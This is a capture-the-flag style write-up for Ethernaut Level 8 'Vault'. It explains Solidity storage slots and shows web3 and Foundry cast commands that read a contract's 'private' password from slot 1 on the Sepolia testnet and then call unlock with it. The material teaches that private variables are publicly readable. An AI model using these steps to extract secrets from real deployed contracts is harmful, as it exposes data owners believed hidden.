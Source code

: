 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/8-vault.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 8 - Vault</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Storage (Static types)](#storage-static-types)
  - [Reading the storage](#reading-the-storage)
- [Solution](#solution)
  - [In the browser console:](#in-the-browser-console)
  - [With Foundry using `cast`:](#with-foundry-using-cast)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/8-vault-requirements.webp" width="800px"/>

## The hack

It requires an understanding of how storage works in solidity (usage of 32 bytes sized slots) and the JSON RPC function `eth_getStorageAt`.

### Storage (Static types)

EVM stores data in 32 bytes slots. The first state variable is stored at slot 0. If there are enough bytes left, the next variable is also stored at slot 0, otherwise at slot 1, and so on.

> NOTE: Dynamic types like arrays and strings are differents and don't work the same way. But this is for another level...

In the Vault contract, `locked` is a boolean and uses 1 bytes. The slot 0 has 31 bytes of unused storage. `password` is a bytes32 and uses 32 bytes. Since it doesn't fit in the 31 bytes left in slot 0, it is stored at slot 1.

### Reading the storage

The `eth_getStorageAt` JSON RPC function can be used to read the contract's storage at a given slot.

For instance, to read the contract's storage at slot 1 using web3.js, you can use the following function:

```javascript
web3.eth.getStorageAt(contractAddress, 1, (err, result) => {
  console.log(result);
});
```

In Foundry, you can make use of `cast` to achieve the same result:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

## Solution

Since we know that the password is stored at slot 1, we can read the storage at that slot to find the password and then call the `unlock` function with the password to complete the level.

### In the browser console:

```javascript
// 1. Read the storage of the contract at slot[1] to find the password:
await web3.eth.getStorageAt(instance, 1);

// 2. Call the unlock function with the password to complete the level:
await contract.unlock("[result from step 2]");
```

### With Foundry using `cast`:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

Then pass the result to the `unlock` function:

```bash
cast send 0x5E0bc315bDe04a2E24E00335976dC823E6214213 "unlock(bytes32)" "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" --private-key $PRIVATE_KEY --rpc-url sepolia
```

## Takeaway

- The `private` keyword means that the data can only be accessed by the contract itself, not that it is hidden from the world.
- Nothing is private on the blockchain. Everything is public and can be read by anyone.

## References

eth_getStorageAt: https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
